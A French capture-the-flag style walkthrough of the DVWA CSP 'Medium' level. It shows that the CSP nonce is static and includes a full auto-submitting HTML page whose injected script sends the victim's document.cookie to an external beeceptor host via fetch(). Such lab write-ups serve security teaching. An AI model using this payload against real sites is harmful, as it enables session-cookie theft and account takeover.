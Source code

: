 # Niveau "Medium"

Le niveau "Medium" invite à trouver une façon de déclencher une boite de dialogue Javascript :

![](../../../../.gitbook/assets/cccabce2290fb6a5f8811fe644848b02.png)

J'analyse la nouvelle politique CSP pour ce niveau :

![](../../../../.gitbook/assets/2812dead72835a747b67eedf51430293.png)

```markup
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```

Soit pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `'unsafe-inline'` : Autorise les scripts de type `<script></script>` (ou encore dans un event HTML par exemple)
* `'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='` : seul le script ayant ce nonce pourra être exécuté

Voici comment fonctionne le [`nonce`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src):

![](../../../../.gitbook/assets/a27d7b07f73f194c7b3d45452eae360f.png)

Le nonce est donc un identifiant unique et renouvelé à chaque fois que le serveur transmet la politique CSP. De plus, il est important que ce nonce ne soit pas devinable (guessable) sans quoi un contournement de la politique CSP serait possible.

Un script autorisé portera alors le nonce comme ceci (ne pas oublier qu'une implémentation sécurisée portera un nonce doit dynamique) :

```markup
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
  // Je suis un script autorisé car je connais le nonce
</script>
```

J'effectue quelques requêtes **`GET`** sur le endpoint `/csp` de DVWA : surprise le `nonce` ne change jamais :

![](../../../../.gitbook/assets/15651a92e46dc09de721eac0a66c064e.png)

Connaissant d'avance le `nonce`, il est alors facile de créer un script qui sera accepté par l'application :

![](../../../../.gitbook/assets/e06ebf5c290ee9493e7719a18aba4554.png)

Afin de piéger la victime, J'utilise la même technique que pour le niveau "Low" qui est de forger une page malicieuse effectuant la requête **`POST`** :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
      <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
        <input type="text" name="include" value="<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>fetch('https://cspbypass.free.beeceptor.com?cookie=' + document.cookie);</script>">
        <button type="submit">Envoyer le message</button>
      </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Finalement, lorsque l'utilisateur (authentifiée) visitera ma page, je récupèrera son jeton (la victime sera redirigée de mon site malicieux vers le challenge DVWA) :

![](../../../../.gitbook/assets/d7f9cc6cfa53044f5eb35f5e34af4119.png)
